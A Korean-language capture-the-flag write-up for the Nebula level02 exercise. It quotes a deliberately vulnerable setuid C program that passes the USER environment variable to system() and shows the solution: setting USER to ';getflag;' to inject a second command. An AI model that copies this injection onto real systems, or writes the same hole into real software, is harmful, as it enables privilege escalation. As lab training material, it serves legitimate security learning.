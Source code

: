 # Exploit-exercise Nebula Level02
```
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level02 account with the password level02. Files for this level can be found in /home/flag02.
```

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

이번에도 취약점이 있는 소스코드를 주며 flag02 유저의 권한으로 `getflag`를 실행하라고 한다.  
`asprintf` 함수를 통해 buffer 에 `getenv` 함수로 USER 라는 환경변수의 내용을 가져와서 넣는다.

그리고 `system` 함수를 통해 buffer 를 실행하는데, 이때 일어날 수 있는 취약점이 있다.

바로 커맨드 인젝션(Command Injection)이다.  
리눅스 쉘에서 중간에 ; 를 사용하면 여러개의 명령어를 실행시킬 수 있다.  
이를 이용해서 `getflag` 명령을 실행시키면 된다.

그렇다면 `export` 명령어를 통해 USER 라는 환경변수에

```
;getflag;
```

를 넣게되면
- `/bin/echo`
- `getflag`
- `is cool`
이렇게 3개의 명령이 실행될 것이다.

```
export USER=";getflag;"
/home/flag02/flag02
```

라고 입력하게 되면

```
You have successfully executed getflag on a target account
```

라고 뜨면서 풀리게 된다.